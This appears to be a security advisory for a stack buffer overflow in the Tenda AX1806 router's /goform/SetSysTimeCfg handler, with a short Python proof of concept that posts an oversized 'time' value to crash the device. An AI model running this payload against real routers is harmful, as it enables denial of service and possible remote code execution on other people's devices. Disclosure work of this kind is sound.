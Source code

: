 Affect device: Tenda Router AX1806 v1.0.0.1(https://www.tenda.com.cn/download/detail-3306.html)

Vulnerability Type: Stack overflow

Impact: Remote Code Execution && Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SetSysTimeCfg` page which influences the lastest version of Tenda Router AX1806 v1.0.0.1: https://www.tenda.com.cn/download/detail-3306.html



There is a stack buffer overflow vulnerability in the `fromSetSysTime` function.

The `v6` variable is directly retrieved from the http request parameter `time`.

Then `v6` will be splice to stack by function sscanf without any security check,which causes stack overflow.

![image-20220208175329650](image/1.png)

So by POSTing the page `/goform/SetSysTimeCfg` with proper `time`, the attacker can easily perform a **Remote Code Execution** or **Deny of Service(DoS)** with carefully crafted overflow data.

# POC

‘’‘
import requests
from pwn import *

url = "https://192.168.2.1/goform/SetSysTimeCfg"

timeType = "manual"

time = b"2022-01-01 "
time += b"a"*0x2000
r = requests.post(url, data={'timeType': timeType, 'time': time},verify=False)
print(r.content)
’‘’
python
